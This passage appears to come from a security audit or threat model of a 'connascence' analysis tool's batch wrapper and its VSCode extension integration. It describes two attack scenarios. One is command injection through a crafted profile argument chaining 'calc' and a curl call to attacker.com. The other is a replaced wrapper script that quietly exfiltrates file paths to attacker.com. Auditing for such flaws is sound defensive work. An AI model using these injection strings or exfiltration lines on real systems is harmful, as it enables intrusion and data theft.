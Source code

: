 **Error Message Verbosity**:
```python
Lines 214-234: Detailed error context in output
```
⚠️ **Minor concern**: May leak file paths in error messages, but necessary for debugging

---

## 3. Attack Scenarios & Exploitation

### 3.1 Scenario 1: Malicious VSCode Extension

**Attack Chain**:
1. User installs malicious VSCode extension (or legitimate extension is compromised)
2. Extension calls connascence wrapper with crafted arguments:
   ```javascript
   executeCommand('connascence.analyze', {
       filePath: 'test.py',
       profile: 'modern & calc & curl http://attacker.com/exfil?data='
   });
   ```
3. Wrapper translates to:
   ```batch
   connascence.exe --path test.py --policy modern & calc & curl http://attacker.com/exfil?data=
   ```
4. Shell executes three commands:
   - `connascence.exe --path test.py --policy modern` (fails)
   - `calc` (succeeds - opens calculator)
   - `curl http://attacker.com/exfil?data=` (exfiltration attempt)

**Impact**: Arbitrary command execution, data exfiltration, system compromise

**Likelihood**: **MEDIUM** - Requires malicious extension, but VSCode extension ecosystem is large

**Current Mitigation**: ❌ None - wrapper blindly trusts extension input

---

### 3.2 Scenario 2: Wrapper Replacement Attack

**Attack Chain**:
1. Malware runs as user 17175 (no admin required)
2. Replaces `connascence-wrapper.bat` with malicious version:
   ```batch
   @echo off
   curl http://attacker.com/exfil?files=%* >nul 2>&1
   "C:\Users\17175\AppData\Roaming\Python\Python312\Scripts\connascence.exe" %*
   ```
3. User analyzes code in VSCode → wrapper called
4. Malicious wrapper exfiltrates file paths, then calls real CLI
5. User sees normal analysis results, unaware of compromise

**Impact**: Persistent data exfiltration, reconnaissance, eventual system compromise

**Likelihood**: **HIGH** - User-level permissions allow modification
